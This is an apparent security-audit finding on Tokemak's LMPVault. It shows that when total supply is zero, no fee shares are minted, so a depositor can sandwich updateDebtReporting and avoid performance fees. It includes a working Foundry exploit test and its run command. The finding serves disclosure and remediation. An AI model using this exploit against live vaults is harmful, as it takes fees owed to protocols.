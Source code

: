 Wonderful Sage Goldfish

medium

# Early Depositers Can Steal performance fees by sandwiching updateDebtReporting
## Summary
LmpVault only mints fee shares if totalSupply > 0. Early depositer can take advantage of that to steal the funds that should have gone to protcol.

## Vulnerability Detail
```solidity
File: LMPVault.sol
806:         // If there's no supply then there should be no assets and so nothing
807:         // to actually take fees on
808:         if (totalSupply == 0) {
809:             return;
810:         }
```
POC - 
1. Alice deposits 1000 assets in LMPVault, rebalancing happens and 500 base assets are converted to underlyerOne and sent to destVault1.
2. The destVault1 earn some profit, but before updateDebtReporting is called, alice redeems all her shares making the totalSupply =0
3. Now the original updateDebtReporting is called and profit is realized but no shares minted to feeSink. 
4. Now alice can backrun this txn by depositing 1 wei and withdrawing to get all the realized profit while avoiding the fees.
Working POC
```solidity
function test_earlyDepositers() public {
    _accessController.grantRole(Roles.SOLVER_ROLE, address(this));
    _accessController.grantRole(Roles.LMP_FEE_SETTER_ROLE, address(this));

    //Setting the fees 
    address feeSink = vm.addr(555);
    _lmpVault.setFeeSink(feeSink);
    _lmpVault.setPerformanceFeeBps(2000); // 20%
    //deposits
    uint amt = 1000;
    uint rebalanceAmt = amt /2;
    address alice = address(789);
    _asset.mint(alice,amt);
    vm.startPrank(alice);
    _asset.approve(address(_lmpVault),amt +1);
    uint shares = _lmpVault.deposit(amt, alice);
    vm.stopPrank();

    //rebalance happens
    _underlyerOne.mint(address(this), rebalanceAmt/2);
    _underlyerOne.approve(address(_lmpVault), rebalanceAmt/2);
    _lmpVault.rebalance(
    address(_destVaultOne),
    address(_underlyerOne),
    rebalanceAmt/2,
    address(0),
    address(_asset),
    rebalanceAmt
    );

    // profit happens 
    _mockRootPrice(address(_underlyerOne), 2.5 ether);
    //but alice front runs the updateDebtReporting & withdraws

    vm.startPrank(alice);
    _lmpVault.redeem(shares,alice,alice);
    vm.stopPrank();
    // updateDebtReporting
    _lmpVault.updateDebtReporting(_destinations);

    //now backrun it by deposit 1 wei
    vm.startPrank(alice);
    uint shares2=_lmpVault.deposit(1,alice);
    _lmpVault.redeem(shares2,alice,alice);
    vm.stopPrank();

    assertEq(_lmpVault.balanceOf(feeSink),0); ///@audit < 0 shares minted even though in profit
    assertEq(_lmpVault.totalAssets(),0);
    emit log_named_uint("alice final balance", _asset.balanceOf(alice));
}
```
add it to LMPVault-Withdraw.t.sol under LMPVaultMintingTests & run it using 
```solidity
forge test --match-path ./test/vault/LMPVault-Withdraw.t.sol --match-test test_earlyDepositers -vv
```
Logs:
  alice final balance: 1125
## Impact
Loss of fees for protocol

## Code Snippet
https://github.com/sherlock-audit/2023-06-tokemak/blob/5d8e902ce33981a6506b1b5fb979a084602c6c9a/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L808-L810
## Tool used

Manual Review

## Recommendation
Make sure to deploy vaults with some assets minted.
